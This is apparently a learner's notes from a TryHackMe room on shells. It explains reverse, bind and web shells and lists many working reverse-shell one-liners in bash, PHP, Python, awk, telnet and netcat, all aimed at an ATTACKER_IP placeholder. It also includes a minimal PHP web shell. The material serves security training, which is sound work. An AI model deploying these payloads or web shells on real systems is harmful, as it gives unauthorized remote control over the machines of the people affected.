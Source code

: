 
### **TryHackMe: Cyber Security 101**

**Room:** `Shells Overview`  
**Status:** Completed  
**Date:** 2025-08-18

----------

### **Goal**

Understand the concept of shells in computing and cybersecurity, including how attackers use shells for remote access, post-exploitation activities, and different types of shells such as reverse shells, bind shells, and web shells.

---------

### **Key Topics Covered**



### 1. Introduction to Shells

A **shell** is software that allows a user to interact with an operating system (OS). While shells can include graphical interfaces, they are most commonly command-line interfaces (CLI). In cybersecurity, the term “shell” usually refers to a shell session an attacker gains after compromising a system. Through this shell, the attacker can run commands, execute software, and interact with the OS as if logged in locally.

Attackers can use shell access to perform a variety of activities:

-   **Remote System Control:** Execute commands and software on the target system remotely.
    
-   **Privilege Escalation:** If initial access is limited, attackers explore ways to gain elevated or administrative privileges.
    
-   **Data Exfiltration:** Access and copy sensitive data from the system.
    
-   **Persistence and Maintenance Access:** Create new users or backdoor software to maintain access for later use.
    
-   **Post-Exploitation Activities:** Deploy malware, create hidden accounts, or delete information.
    
-   **Pivoting:** Use the compromised system as a stepping stone to access other systems in the network.
    

### 2. Reverse Shells

A **reverse shell** (or “connect-back shell”) is a popular technique for attackers to gain access while bypassing network security measures. The connection originates from the target system back to the attacker’s machine.

**Listener Setup Example Using Netcat:**

    nc -lvnp 443
-   `-l`: listen for incoming connections
    
-   `-v`: verbose mode
    
-   `-n`: use IP addresses only (no DNS resolution)
    
-   `-p`: specify the port
    

Attackers often choose well-known ports (53, 80, 8080, 443, 139, 445) to blend with normal traffic. Once the listener is set, the attacker executes a **payload** on the target system to connect back to the listener.

**Pipe Reverse Shell Example:**

    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
-   `rm -f /tmp/f`: removes any existing named pipe to prevent conflicts
    
-   `mkfifo /tmp/f`: creates a FIFO (first-in-first-out) named pipe
    
-   `cat /tmp/f | sh -i 2>&1`: pipes data through an interactive shell, redirecting errors to output
    
-   `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`: sends shell output to the attacker, enabling bi-directional communication
    

This payload exposes the shell to the attacker, who can then execute commands as if logged in locally.

### 3. Bind Shells

A **bind shell** binds a port on the target system and listens for an incoming connection. Unlike reverse shells, the compromised system waits for the attacker to connect. This is useful when outgoing connections are restricted but is more detectable.

**Bind Shell Example Using Netcat:**

    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 >/tmp/f

-   `nc -l 0.0.0.0 8080`: listens on all interfaces on port 8080
    
-   Output is sent back through the named pipe for bidirectional communication
    
-   Ports below 1024 require elevated privileges, so 8080 is chosen to avoid this
    

**Attacker Connection Command:**

    nc -nv TARGET_IP 8080

### 4. Alternative Listeners and Tools

Other tools can be used to interact with shells:

-   **Rlwrap:** Provides command history and editing
    
-   **Ncat:** Enhanced Netcat with encryption (SSL)
    
-   **Socat:** Creates socket connections between data sources or hosts
    

### 5. Shell Payloads

Shell payloads are commands or scripts that expose a shell connection. They vary by OS and language.

**Linux Reverse Shell Examples:**

 **Bash Reverse Shells** 

    bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1      # This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP on port 443.The >& operator combines both standard output and standard error.
    exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done   # This reverse shell creates a new file descriptor (5) and connects to a TCP socket. It reads and executes commands from the socket, sending the output back through the same socket.
    0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196   # Uses a file descriptor (196) to establish a TCP connection, reading commands from the network and sending output back through the same connection.
    bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5   # Opens a bash interactive shell using file descriptor 5 for input and output, enabling an interactive session over TCP.

**PHP Reverse Shells**

    php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'   # Creates a socket connection to the attacker's IP on port 443 and executes a shell, redirecting input/output.
    php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'   # Similar to the previous command, but uses the shell_exec function.
    php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'   # Uses the system function to execute the command and output the result to the browser.
    php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'   # Uses passthru to execute a command and send raw output back, useful for binary data.
    php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'   # Uses popen to open a process file pointer, allowing shell execution.

**Python Reverse Shells**

    export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty; s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("bash")'   # Sets remote host/port as environment variables, creates a socket, duplicates socket fd for stdio, and spawns bash.
    PY-C 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("bash")'   # Uses subprocess module to spawn a shell and redirect stdio to the socket.
    PY-C 'import os,pty,socket; s=socket.socket(); s.connect(("ATTACKER_IP",443)); [os.dup2(s.fileno(),f) for f in (0,1,2)]; pty.spawn("bash")'   # Creates a socket, connects to the attacker, and redirects input/output/error to the socket.

**Other Reverse Shells** 

    TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF   # Creates a named pipe and connects to the attacker via Telnet on IP/port 443.
    awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null   # Uses AWK's TCP capabilities to connect to ATTACKER_IP:443, read commands, execute, and return results.
    busybox nc ATTACKER_IP 443 -e sh   # BusyBox Netcat connects to attacker at IP:443 and executes /bin/sh, exposing the command line.

### 6. Web Shells

A **web shell** is a script deployed on a compromised web server that executes commands through the server itself. It can be hidden in web applications, making it difficult to detect.

**PHP Web Shell Example:**

    <?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
    ?>

-   Saved as `shell.php` and uploaded via a vulnerability
    
-   Accessed via a URL like `http://victim.com/uploads/shell.php?cmd=whoami`
    
-   Executes the command and returns output in the browser
    

Web shells can be written in PHP, ASP, JSP, or CGI scripts depending on server support.

## What I Learned

-   Shells allow interaction with an OS, commonly via command-line interfaces.
    
-   Reverse shells connect back to the attacker, bypassing firewalls.
    
-   Bind shells wait for incoming connections but are more detectable.
    
-   Netcat, Rlwrap, Ncat, and Socat are useful tools for shell interactions.
    
-   Shell payloads vary by OS and language, including Bash, PHP, and Python.
    
-   Web shells execute commands through a web server and can be hidden in web apps.
